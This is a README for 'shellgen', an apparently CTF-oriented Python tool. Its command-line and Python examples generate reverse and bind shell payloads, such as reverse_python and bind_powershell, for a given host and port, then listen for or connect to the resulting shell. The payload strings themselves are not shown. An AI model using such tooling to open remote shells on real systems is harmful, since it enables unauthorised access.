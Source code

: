 # shellgen
Shell Generator for CTF's

## Terminal Usage

**Listing Shells**

Listing the available shells in the module.

```bash
$ python3 shellgen.py --list-shells
```



![](.img/listshells.png)

**Creating Payload**

Create a Reverse Python payload and set the **lhost** and **lport** values.

```bash
$ python3 shellgen.py -s reverse_python --lhost 10.10.10.10 --lport 9001
```



![](.img/create_payload.png)



**Listening address**

After creating a payload, the module will help you to listen on the specified address and port, and catch the incoming shell.

```bash
$ python3 shellgen.py -s reverse_python --lhost 10.10.10.10 --lport 9001 --listen
```



![](.img/listen.png)



## Python Usage

Basic usage of the module

```python
import shellgen

# Create a new shellgen object
shell = shellgen()

# Set up connection data
shell.set_lhost('10.10.10.10')
shell.set_lport(9001)

# Generate Shell String
shell_string = shell.generate_shell('reverse_python')

```



Pass arguments to the **generate_shell()** function as kwargs.

```python
import shellgen

# Create a new shellgen object
shell = shellgen()

# Generate Shell String and specify values as kwargs
shell_string = shell.generate_shell('bind_powershell',rhost='192.168.56.56',rport='8080')

# Connect to the remore address
shell.connect()
```



After generated a reverse payload, the module can listen on the specified port and interface address.

```python
import shellgen

# Create a new shellgen object
shell = shellgen()

# Generate Shell String and specify values as kwargs
shell_string = shell.generate_shell('reverse_python',lhost='10.10.10.10',lport='4444')

# Listening on the specified port nad address
shell.listen()
```

